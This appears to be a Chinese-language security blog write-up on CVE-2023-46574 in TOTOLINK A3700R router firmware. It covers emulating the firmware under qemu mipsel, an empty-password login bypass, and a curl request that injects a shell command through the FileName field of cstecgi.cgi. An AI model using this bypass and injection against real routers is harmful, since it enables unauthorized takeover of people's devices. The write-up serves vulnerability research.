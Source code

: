 
TOTOLINK 命令执行 CVE-2023-46574

- - -

# TOTOLINK 命令执行 CVE-2023-46574

## 搭建 qemu mipsel 环境

```plain
sudo apt-get install schroot debootstrap
ubuntu20
debootstrap --arch=mipsel bookworm /iotconfig/debootstrap/mipsel https://mirrors.aliyun.com/debian
```

[![](assets/1708871055-a649f4c54a58e40e31e5da2e7ab5ea80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220854-ead62014-ccd4-1.png)  
然后配置 schroot

```plain
sudo vim /etc/schroot/chroot.d/mipsel.conf
```

```plain
[mipsel]
type=directory
directory=/iotconfig/debootstrap/mipsel/
users=root
groups=root
root-groups=root
```

然后就可以看到已经配置上了

[![](assets/1708871055-40bfa708d0e0d88add8bff44ce5e17db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220930-00c22a1c-ccd5-1.png)  
之后直接 schroot 进入

```plain
sudo schroot -c chroot:mipsel -u root
```

[![](assets/1708871055-7fc80804bdc97cbbdc5c72628423e932.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220941-073e4cd6-ccd5-1.png)

## 漏洞分析

在 cstecgi.cgi 程序中

[![](assets/1708871055-436d56d3102815927e106271b936cf8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221000-1257c476-ccd5-1.png)  
FileName 没有检查放入 doSystem，所以这里有命令执行漏洞

## 固件模拟

```plain
sudo binwalk --run-as=root -Me TOTOLINK_A3700R_V9.1.2u.6165_20211012.web
```

[![](assets/1708871055-7fc56e0300d1aa2a079ac9cbd5711c42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221019-1d838e70-ccd5-1.png)  
查看目录，里面有个 lighttpd 文件夹，所以这里用的是 lighttpd 服务

[![](assets/1708871055-6d3f1d4a01c43f1aa9e4093c33e7a9f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221149-53403cd4-ccd5-1.png)  
在 lighttpd 目录下找到了配置文件

[![](assets/1708871055-3ab15f4ec88c48743bdf044f0648f3f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221157-584f8586-ccd5-1.png)  
这里 lighttpd 是通过 lighttpd -f \[配置文件\]来启动的

```plain
sudo cp -r squashfs-root /iotconfig/debootstrap/mipsel/root/
```

然后将 squashfs-root 复制到安装的 mipsel 系统上

[![](assets/1708871055-8ec8711ef8acfeffe5d801c150913541.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221216-63a5712a-ccd5-1.png)  
进入 mipsel 系统，然后再 chroot 进入 squashfs-root 目录下

```plain
sudo schroot -c chroot:mipsel -u root
chroot squashfs-root/
```

[![](assets/1708871055-f65352104dc001a36a13f73198c6254a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221231-6c7fda24-ccd5-1.png)  
然后直接启动服务即可

```plain
lighttpd -f lighttp/lighttpd.conf
```

[![](assets/1708871055-51454ead13228ae08e72896aa036682c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221239-71762c72-ccd5-1.png)

```plain
这里如果没启动成功，只需要在/var/run 目录下创建一个 lighttpd.pid 文件即可
mkdir /var/run
touch /var/run/lighttpd.pid
```

然后就能进入路由器登录界面了

[![](assets/1708871055-0fe33dc5ea1d83097c60001c7bc696e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221259-7d5e3160-ccd5-1.png)

## 绕过登录

因为没设置密码，所以直接抓包，空密码登录

[![](assets/1708871055-9278d7cb6d3fecf2b4019e44e044f111.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221311-847b51bc-ccd5-1.png)  
没直接进入，但是可以看到地址  
[http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login](http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login)

[![](assets/1708871055-48b7d02cfb785eac0e5464bdbffe9f8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221320-89925b78-ccd5-1.png)  
直接访问即可

[![](assets/1708871055-d0e64867e06e13d679e7da477d596636.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221327-8e0d3bd2-ccd5-1.png)

## 命令执行

拿到 session id

[![](assets/1708871055-488c8ea0dfc6920b2726d1b4bc48805b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221342-97089114-ccd5-1.png)

```plain
curl http://127.0.0.1/cgi-bin/cstecgi.cgi -b "SESSION_ID=2:1708017806:2" -X POST -d '{"topicurl":"UploadFirmwareFile","FileName":";ls -a;"}'
```

[![](assets/1708871055-6e417d9aef16cffaecf1fdfd7863e275.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221402-a2eee3ca-ccd5-1.png)

![](assets/1708871055-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)TOTOLINK\_A3700R\_V9.1.2u.6165\_20211012.zip (8.658 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240216221624-f78081d2-ccd5-1.zip)
